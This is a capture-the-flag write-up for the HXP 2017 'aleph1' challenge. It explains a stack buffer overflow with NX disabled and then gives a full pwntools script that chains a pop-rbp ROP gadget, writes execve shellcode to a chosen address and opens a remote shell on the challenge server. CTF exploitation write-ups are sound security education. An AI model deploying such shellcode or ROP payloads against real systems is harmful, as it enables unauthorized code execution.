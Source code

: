 
# HXP 2017 - aleph1


So for this challenge we were provided with source code. 

```cpp
int main()
{
    char yolo[0x400];
    fgets(yolo, 0x539, stdin);
}
```


This seems like a classic buffer overflow. Further inspection of the binary shows that NX bit is disabled. Useless fact: 0x539 == 1337.

	Arch:     amd64-64-little
	RELRO:    Partial RELRO
	Stack:    No canary found
	NX:       NX disabled
	PIE:      No PIE (0x400000)
	RWX:      Has RWX segments

The disassembly of main():

    0x4005ca <main>       push   rbp                           <0x400600>
  	0x4005cb <main+1>     mov    rbp, rsp
  	0x4005ce <main+4>     sub    rsp, 0x400
  	0x4005d5 <main+11>    mov    rdx, qword ptr [rip + 0x200a54] <0x601030>
   	0x4005dc <main+18>    lea    rax, [rbp - 0x400]
   	0x4005e3 <main+25>    mov    esi, 0x539
   	0x4005e8 <main+30>    mov    rdi, rax
   	0x4005eb <main+33>    call   fgets@plt                     <0x4004d0>
   	0x4005f0 <main+38>    mov    eax, 0
   	0x4005f5 <main+43>    leave
   	0x4005f6 <main+44>    ret

We see that ```rbp``` is used to determine the address of the buffer to be written to at 0x4005dc. So lets search for gadgets that modifies ```rbp```!

	0x0000000000400538: pop rbp; ret;
    
Perfect, there is one at 0x400538. So now we can control ```rbp```, hence controlling where our shellcode is written to. After that, we can ROP to our shellcode.

Our flow:
```
1. ROP to our gadget.
2. Pop address of our choice into RBP.
3. Return back to main+11.
4. Write shellcode to address of our choice.
5. Return to our shellcode.
6. cat flag.txt
```

Final script:
```python
from pwn import *

r = remote('35.205.206.137', 1996)
shellcode = "\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x31\xc0\x99\x31\xf6\x54\x5f\xb0\x3b\x0f\x05"

payload = 'A' * 1032
payload += p64(0x400538)
payload += p64(0x6010a0 + 0x400)
payload += p64(0x4005d5)

r.sendline(payload)

payload = shellcode
payload += '\x90' * (0x400 - len(payload))
payload += p64(0x6010a0 + 0x400)  # leave
payload += p64(0x6010a0) # ret

r.sendline(payload)
r.interactive()
```


	
